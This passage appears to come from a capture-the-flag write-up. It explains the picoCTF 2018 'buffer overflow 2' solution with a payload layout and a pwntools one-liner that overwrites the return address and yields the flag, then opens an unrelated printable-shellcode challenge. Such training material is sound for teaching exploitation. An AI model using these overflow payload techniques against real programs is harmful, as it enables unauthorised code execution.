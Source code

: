 So in this case, we our payload will be:

- ‘a’ * 100 <– filling the buffer
- ‘a’ * 12 <– overwrite some stuff that we don’t care about
- p32(0x080485cb) <– address for the `win` function (read my solution for [buffer overflow 1](https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/binary-exploitation/#buffer-overflow-1) to see how I got this address)
- ‘a’ * 4 <– pad out the second return address
- p32(0xDEADBEEF) <– argument one
- p32(0xDEADC0DE) <– argument two

Put all of this together, and we get the flag:

```
alanc@pico-2018-shell-2:/problems/buffer-overflow-2_4_ca1cb0da49310dd45c811348a235d257$ python -c "from pwn import *; print 'a'*(100+12)+p32(0x080485cb)+'P'*4+p32(0xDEADBEEF)+p32(0xDEADC0DE)" | ./vuln
Please enter your string:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaPPPPﾭ�����
picoCTF{addr3ss3s_ar3_3asy30723282}Segmentation fault
```

## (BONUS 5 pt) Perfectly secure from shellcode

The dragon fell down into dust. You become the hero of the fantasy world. However, you still want to return home.

"Only the God can leave this world." Said the wiser, "that dragon is the most powerful creature and the most close to the God. Maybe... Only maybe... There is only one way."

"Grab the dragon's egg, use it to caste the most powerful wish magic. You have a chance to say something to the world tree."

"However, you may only use characters **no smaller than 32, no larger than 126** in ASCII order. May the bless be with you!"

The end of journey is arriving.

You are filled with determination.

`nc compass.ctfd.io:10003`

[world](file/chall2-3)

[world.c](file/chall2-3.c)

Become the God and find the flag. Flag format: `flag{***}`

*This challenge is a little hard. The winner will get a badge for solving this.*

### Writeup

Challenge from Hacker Game 2019 `shell骇客 第三问` (modified)

Writeup from https://github.com/ustclug/hackergame2019-writeups/blob/master/official/Shell_%E9%AA%87%E5%AE%A2/README.md
